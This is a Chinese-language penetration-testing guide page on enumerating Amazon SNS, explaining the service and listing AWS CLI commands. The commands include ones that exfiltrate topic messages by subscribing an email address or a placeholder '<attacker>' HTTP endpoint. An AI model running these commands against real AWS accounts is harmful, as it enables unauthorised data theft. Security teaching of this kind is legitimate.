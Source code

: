 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS) 被描述为一个 **完全托管的消息服务**。它支持 **应用程序到应用程序** (A2A) 和 **应用程序到个人** (A2P) 的通信类型。

A2A 通信的关键特性包括 **发布/订阅 (pub/sub) 机制**。这些机制引入了 **主题**，对于实现高吞吐量的 **推送式、多对多消息传递** 至关重要。此功能在涉及分布式系统、微服务和事件驱动的无服务器架构的场景中非常有利。通过利用这些主题，发布系统可以有效地将消息分发到 **广泛的订阅系统**，促进扇出消息模式。

### **与 SQS 的区别**

**SQS** 是一个 **基于队列** 的服务，允许点对点通信，确保消息由 **单个消费者** 处理。它提供 **至少一次交付**，支持标准和 FIFO 队列，并允许消息保留以进行重试和延迟处理。\
另一方面，**SNS** 是一个 **基于发布/订阅** 的服务，通过同时向 **多个订阅者** 广播消息来实现 **一对多** 的通信。它支持 **各种订阅端点，如电子邮件、短信、Lambda 函数和 HTTP/HTTPS**，并提供针对性消息传递的过滤机制。\
虽然这两项服务都能实现分布式系统中组件之间的解耦，但 SQS 侧重于排队通信，而 SNS 强调事件驱动的扇出通信模式。

### **枚举**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> 注意，如果**主题是 FIFO 类型**，则只能使用使用协议 **SQS** 的订阅者（不能使用 HTTP 或 HTTPS）。
>
> 此外，即使 `--topic-arn` 包含区域，也请确保在 **`--region`** 中指定正确的区域，否则您将收到一个错误，表明您没有访问权限，但问题实际上是区域。

#### 未经身份验证的访问

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum/README.md
{{#endref}}

#### 权限提升

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc/README.md
{{#endref}}

#### 后期利用

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation/README.md
{{#endref}}

#### 持久性

{{#ref}}
../aws-persistence/aws-sns-persistence/README.md
{{#endref}}

## 参考

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
